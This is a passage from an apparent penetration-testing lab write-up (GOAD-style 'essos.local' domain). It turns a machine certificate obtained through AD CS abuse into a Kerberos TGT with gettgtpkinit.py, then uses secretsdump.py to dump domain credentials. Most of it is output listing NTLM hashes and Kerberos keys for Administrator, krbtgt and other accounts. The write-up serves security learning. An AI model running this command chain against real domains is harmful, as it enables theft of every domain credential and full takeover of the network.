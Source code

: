 ```bash
[*] Skipping user MEEREEN$ since attack was already performed
[*] GOT CERTIFICATE! ID 3
[*] Writing PKCS#12 certificate to ./MEEREEN$.pfx
[*] Certificate successfully written to file
```

I create a TGT file from it using `gettgtpkinit.py`:

`python3 gettgtpkinit.py -cert-pfx MEEREEN\$.pfx 'essos.local'/'meereen$' 'meereen.ccache'`

Export it:

`export KRB5CCNAME=/home/kali/Documents/ADCS/meereen.ccache`

And I can dump the secrets using `secretsdump.py`:

`secretsdump.py -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local`

```bash
[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:362f73da69b48f9ad4d55fabe99cda6b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
daenerys.targaryen:1112:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
viserys.targaryen:1113:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
khal.drogo:1114:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
jorah.mormont:1115:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
missandei:1116:aad3b435b51404eeaad3b435b51404ee:1b4fd18edf477048c7a7c32fda251cec:::
drogon:1117:aad3b435b51404eeaad3b435b51404ee:195e021e4c0ae619f612fb16c5706bb6:::
sql_svc:1118:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
halilPrintNightmare:1120:aad3b435b51404eeaad3b435b51404ee:aaba54366604fb40f23ac611393badfd:::
halilPrintNightmare2:1121:aad3b435b51404eeaad3b435b51404ee:aaba54366604fb40f23ac611393badfd:::
MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:5e2a3daccd0d42acdc1ea27cba59e691:::
BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:b11573931cba1610a53c3e7869f239c1:::
gmsaDragon$:1119:aad3b435b51404eeaad3b435b51404ee:28216b2ebb29423eddc06087f09a61e7:::
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:52bac9dd1cab3cdb208d7347118690d9:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:e1c42126ca7beac7dcaff1d37490c43d3399f61db82efa3ae67f591b7ddcff9a
krbtgt:aes128-cts-hmac-sha1-96:460259018a935c5765cf46418e91d538
krbtgt:des-cbc-md5:c237f13751ce04b9
daenerys.targaryen:aes256-cts-hmac-sha1-96:cf091fbd07f729567ac448ba96c08b12fa67c1372f439ae093f67c6e2cf82378
daenerys.targaryen:aes128-cts-hmac-sha1-96:eeb91a725e7c7d83bfc7970532f2b69c
daenerys.targaryen:des-cbc-md5:bc6ddf7ce60d29cd
viserys.targaryen:aes256-cts-hmac-sha1-96:b4124b8311d9d84ee45455bccbc48a108d366d5887b35428075b644e6724c96e
viserys.targaryen:aes128-cts-hmac-sha1-96:4b34e2537da4f1ac2d16135a5cb9bd3e
viserys.targaryen:des-cbc-md5:70528fa13bc1f2a1
khal.drogo:aes256-cts-hmac-sha1-96:2ef916a78335b11da896216ad6a4f3b1fd6276938d14070444900a75e5bf7eb4
khal.drogo:aes128-cts-hmac-sha1-96:7d76da251df8d5cec9bf3732e1f6c1ac
khal.drogo:des-cbc-md5:b5ec4c1032ef020d
jorah.mormont:aes256-cts-hmac-sha1-96:286398f9a9317f08acd3323e5cef90f9e84628c43597850e22d69c8402a26ece
jorah.mormont:aes128-cts-hmac-sha1-96:896e68f8c9ca6c608d3feb051f0de671
jorah.mormont:des-cbc-md5:b926916289464ffb
missandei:aes256-cts-hmac-sha1-96:41d08ceba69dde0e8f7de8936b3e1e48ee94f9635c855f398cd76262478ffe1c
missandei:aes128-cts-hmac-sha1-96:0a9a4343b11f3cce3b66a7f6c3d6377a
missandei:des-cbc-md5:54ec15a8c8e6f44f
drogon:aes256-cts-hmac-sha1-96:2f92317ed2d02a28a05e589095a92a8ec550b5655d45382fc877f9359e1b7fa1
drogon:aes128-cts-hmac-sha1-96:3968ac4efd4792d0acef565ac4158814
drogon:des-cbc-md5:bf1c85a7c8fdf237
sql_svc:aes256-cts-hmac-sha1-96:ca26951b04c2d410864366d048d7b9cbb252a810007368a1afcf54adaa1c0516
```